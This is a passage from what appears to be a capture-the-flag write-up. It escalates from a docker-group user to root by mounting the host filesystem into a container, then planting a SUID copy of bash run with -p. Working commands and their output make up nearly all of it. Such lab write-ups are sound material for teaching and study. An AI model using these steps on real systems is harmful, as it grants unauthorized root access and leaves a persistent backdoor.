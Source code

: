 1. Spawn a `root` shell in one of those containers:

```
michael@the-marketplace:/opt/backups$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
[...]
root@82c36fdf20ef:/# whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
82c36fdf20ef
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
[...]
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

We're root **inside the container.**

2. Copy `/bin/bash` to `/opt/backups`, and add SUID set bit to the copied `bash`:

```
root@82c36fdf20ef:/# cp /bin/bash /opt/backups/root_bash

root@82c36fdf20ef:/# chmod +s /opt/backups/root_bash

root@82c36fdf20ef:/# ls -lah /opt/backups/root_bash
-rwsr-sr-x 1 root root 1.1M Aug 30 11:26 /opt/backups/root_bash
```

3. Exit current container, and spawn a root shell via `-p` option in bash. This will spawn a SUID privilege bash:

```
root@82c36fdf20ef:/# exit

michael@the-marketplace:/opt/backups$ /opt/backups/root_bash -p

root_bash-4.4# whoami;hostname;id;ip a
root
the-marketplace
uid=1002(michael) gid=1002(michael) euid=0(root) egid=0(root) groups=0(root),999(docker),1002(michael)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:bf:a1:53:5e:5f brd ff:ff:ff:ff:ff:ff
    inet 10.10.102.127/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 1807sec preferred_lft 1807sec
    inet6 fe80::bf:a1ff:fe53:5e5f/64 scope link 
       valid_lft forever preferred_lft forever
[...]
```

We're root! :D

